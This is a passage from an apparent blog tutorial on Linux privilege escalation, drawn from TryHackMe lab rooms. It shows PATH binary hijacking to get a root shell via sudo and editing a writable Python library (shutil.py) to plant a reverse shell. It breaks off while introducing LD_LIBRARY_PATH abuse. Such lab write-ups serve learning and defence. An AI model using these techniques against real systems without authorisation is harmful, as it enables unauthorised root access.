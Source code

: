 When script is executed and it uses a binary, system needs to find it first

So it searches:
1. For such in current direcory
2. If nothing was found, then it looks through all directories in `PATH` variable - from left to right

In `/home/user` create a new file called `tar` with `/bin/bash` in it. Then we have root
```sh
$ pwd
/home/user

$ echo "/bin/bash" > tar
$ sudo /home/user/backup.sh 

#
```

That's how we hijacked a binary. Simmilarly we can modify python libraries.

The file with the code is called `restore.py`
```py
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```
(taken from [Dreaming on tryhackme](https://tryhackme.com/r/room/dreaming))
{: class="subtext" }

As we see, it uses `shutil` to copy files - time to find that library
```sh
$ find / -name shutil*  2>>/dev/null
/usr/lib/python3.8/shutil.py
[...]
```
It's permissions allow us to edit it - so we can add python shell (For example from [revshells.com](https://revshells.com/))

Last but not least!

### Case 3 - abusing dynamic libraries

There are actually two types in here - yet both are really similar

We'll be using dynamic libraries to execute our code.

#### `LD_LIBRARY_PATH`

```sh
$ sudo -l
[sudo] password for rick:
Matching Defaults entries for rick on Hijack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin,
    env_keep+=LD_LIBRARY_PATH

User rick may run the following commands on Hijack:
    (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```
(Comes from [Hijack box on TryHackme](https://tryhackme.com/r/room/hijack))
{: class="subtext" }
